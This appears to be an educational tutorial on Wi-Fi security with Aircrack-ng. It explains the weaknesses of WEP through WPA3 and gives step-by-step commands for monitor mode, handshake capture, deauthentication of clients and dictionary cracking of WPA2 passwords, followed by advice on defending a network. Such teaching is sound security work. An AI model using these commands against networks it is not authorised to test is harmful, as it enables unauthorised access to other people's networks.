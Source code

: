 # The Art of Wi-Fi Hacking & Protection with Aircrack-ng

## Introduction
Wi-Fi security is a crucial aspect of cybersecurity, and understanding how attackers exploit vulnerabilities can help us better protect our networks. In this article, we will explore how to hack a Wi-Fi network using Aircrack-ng and, more importantly, how to prevent such attacks.

> **Disclaimer:** This article is for educational purposes only. Unauthorized access to a network is illegal and punishable under cybersecurity laws.

![Image](https://github.com/user-attachments/assets/609a2d8a-924c-4037-916c-c8b6d3369253) <br/>

## Understanding Wi-Fi Security and Encryption
Wi-Fi networks primarily use **WEP, WPA, WPA2, and WPA3** encryption protocols:

- **WEP (Wired Equivalent Privacy):** Introduced in 1997, WEP was the first Wi-Fi encryption standard but is now obsolete due to its weak encryption algorithm (RC4) and short initialization vector (IV), making it highly vulnerable to **IV collision attacks and statistical cracking methods**.

- **WPA (Wi-Fi Protected Access):** Introduced as a temporary fix for WEP vulnerabilities, WPA used the **TKIP (Temporal Key Integrity Protocol)** encryption method. Although it improved security, it is still vulnerable to **brute-force and dictionary attacks**.

- **WPA2:** The most commonly used Wi-Fi security protocol, WPA2 uses **AES (Advanced Encryption Standard)** for stronger encryption. However, it remains susceptible to **WPA handshake attacks** and dictionary-based brute-force attacks.

- **WPA3:** The latest and most secure encryption standard, designed to address WPA2 weaknesses by implementing **Simultaneous Authentication of Equals (SAE)** (also known as the Dragonfly handshake), making it resistant to dictionary attacks. However, due to limited adoption, most networks still run WPA2.

## Types of Wi-Fi Attacks
Before diving into practical steps, let's briefly discuss common Wi-Fi attack techniques that hackers use:

1. **Deauthentication Attack:** Forces a connected client to disconnect from the Wi-Fi network, capturing the handshake when it reconnects.
2. **Dictionary Attack:** Uses a precompiled wordlist to brute-force a Wi-Fi password.
3. **Evil Twin Attack:** Sets up a rogue Wi-Fi access point that mimics a legitimate network to trick users into connecting and stealing credentials.
4. **WPS Pin Attack:** Exploits the weaknesses in Wi-Fi Protected Setup (WPS) to gain access to WPA/WPA2 networks.
5. **Packet Sniffing:** Captures and analyzes data packets to extract sensitive information using tools like Wireshark.
6. **Man-in-the-Middle (MITM) Attack:** Intercepts network traffic between the victim and the router to steal login credentials or inject malicious payloads.

### **Targeted Attacks for WEP, WPA, WPA2, and WPA3**
Before diving into the practical steps, let's briefly discuss how each encryption standard can be targeted:

- **WEP Attacks:**
  - **IV Collision Attack**: Exploits the short IV space to collect enough packets and crack the key.
  - **ARP Replay Attack**: Generates more traffic to speed up IV collection for cracking.

- **WPA Attacks:**
  - **Dictionary Attack**: Captures the 4-way handshake and brute-forces it using a wordlist.
  - **WPS PIN Attack**: Exploits vulnerabilities in Wi-Fi Protected Setup to recover WPA passwords.

- **WPA2 Attacks:**
  - **Handshake Capture & Brute Force**: Captures authentication handshakes and attempts to decrypt them.
  - **PMKID Attack**: Exploits vulnerabilities in some WPA2 networks without needing a connected client.

- **WPA3 Attacks:**
  - **Side-Channel Timing Attack**: Exploits weaknesses in the Dragonfly handshake implementation.
  - **Downgrade Attack**: Forces devices to connect using WPA2, making them susceptible to older attacks.

## Setup Requirements
To perform this attack, you need:
- A **Linux-based OS** (Kali Linux is recommended) installed via dual boot or a virtual machine.
- A **wireless network adapter** that supports **monitor mode and packet injection** (required for virtual machines, as built-in adapters may not work).

## Step-by-Step Wi-Fi Hacking Using Aircrack-ng

### **Step 1: Check Network Interfaces**
First, ensure your wireless adapter is recognized.
```bash
ifconfig
```
For newer systems:
```bash
ip a
```
List available wireless interfaces:
```bash
iwconfig
```
Identify the Wi-Fi adapter (e.g., wlan0) from the output.

### **Step 2: Enable Monitor Mode**
Enable monitor mode to capture packets from nearby Wi-Fi networks.
```bash
airmon-ng start wlan0
```
Verify the mode:
```bash
iwconfig
```
Your adapter should now be in **monitor mode** (e.g., wlan0mon).

### **Step 3: Scan for Wi-Fi Networks**
Use **airodump-ng** to scan for available networks.
```bash
airodump-ng wlan0mon
```
Identify the target network’s **BSSID (MAC Address)** and **Channel (CH).**

### **Step 4: Capture the WPA/WPA2 Handshake**
Start packet capturing on the target network’s channel.
```bash
airodump-ng -c [CH] --bssid [BSSID] -w handshake wlan0mon
```
Now, wait for a device to connect, or force a device disconnection using a **deauthentication attack**:
```bash
aireplay-ng --deauth 10 -a [BSSID] wlan0mon
```
Once a device reconnects, the **WPA handshake** will be captured.

### **Step 5: Crack the Password Using Aircrack-ng**
Use a dictionary attack with a wordlist (e.g., rockyou.txt):
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] handshake.cap
```
If the password is in the wordlist, it will be revealed.

## How to Prevent Wi-Fi Hacking
### **1. Use a Strong Password**
- Avoid common words.
- Use a mix of uppercase, lowercase, numbers, and special characters.
- Use a **minimum of 16 characters.**

### **2. Enable WPA3 Encryption**
- If supported, switch to WPA3, which is resistant to dictionary attacks.

### **3. Disable WPS (Wi-Fi Protected Setup)**
- WPS can be brute-forced easily, leading to a compromised network.

### **4. Monitor Network Activity**
- Use intrusion detection tools like **Wireshark** or **Kismet**.
- Check for **unauthorized devices** connected to your network.

### **5. Use MAC Address Filtering**
- Allow only trusted MAC addresses to connect to your network.

### **6. Reduce Signal Strength**
- Prevent external attacks by adjusting your router’s power settings to cover only the required area.

### **7. Regularly Update Firmware**
- Keep your router’s firmware up-to-date to patch vulnerabilities.

## Conclusion
Hacking a Wi-Fi network using Aircrack-ng is a practical demonstration of how insecure passwords can be cracked. However, understanding these techniques allows users to fortify their networks against such attacks. By implementing strong security measures, you can prevent unauthorized access and ensure a secure wireless environment.

